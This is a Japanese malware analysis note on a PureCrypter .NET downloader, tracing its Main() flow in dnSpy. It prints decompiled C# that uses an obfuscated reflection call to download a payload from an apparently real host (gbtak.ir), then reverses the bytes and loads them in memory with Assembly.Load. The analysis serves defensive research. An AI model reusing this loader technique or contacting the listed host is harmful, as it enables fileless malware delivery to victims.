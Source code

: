 # PureCrypter
https://www.zscaler.com/jp/blogs/security-research/technical-analysis-purecrypter
- 4a88f9feaed04917f369fe5089f5c09f791bf1214673f6313196188e98093d74

7-Zipで展開すると、63342221.BATが確認できる。  
このファイルが.NETでビルドされたEXEのダウンローダ（Ygjklu.exe）。

## Ygjklu.exe
dnSpyで確認すると、WindowsFormsApp37.StubPolicyRecord内にMain()が確認できる。  
Main()ではExporterPolicyAttributeクラスのインスタンスを生成し、以下の関数が呼ばれる。
- InitProcess()
- CollectProcess()
- SortProcess()
- ResolveProcess()

CollectProcess()内でPopProcess()が呼ばれる。
```cs
internal byte[] PopProcess()
{
  return (byte[])typeof(WebClient).GetMethod(ExporterPolicyAttribute.ListCallback("DzveDowDzvenlDzveoadDDzveataDzve", "Dzve", ""), new Type[] { typeof(string) }).Invoke(new WebClient(), new object[] { "http://gbtak.ir/wp-content/Ygjklu.log" });
}
```
ExporterPolicyAttribute.ListCallback()では第一引数の文字列に対して、第二引数の文字列を第三引数の文字列に置き換える。  
このため、GetMethodの引数は`DownloadData`となり、`http://gbtak.ir/wp-content/Ygjklu.log`から次のファイルがダウンロードされ、array変数に格納される。

その後、CollectProcess()ではExporterPolicyAttribute.DisableCallback(array, 0, array.Length)が呼ばれ、内部でArray.Reverse()が呼ばれるため、arrayのバイト列が反転される。

そして、ExporterPolicyAttribute.FindCallback(array)が呼ばれ、内部でAssembly.Load()が呼ばれるため、arrayがメモリ上にロードされる。
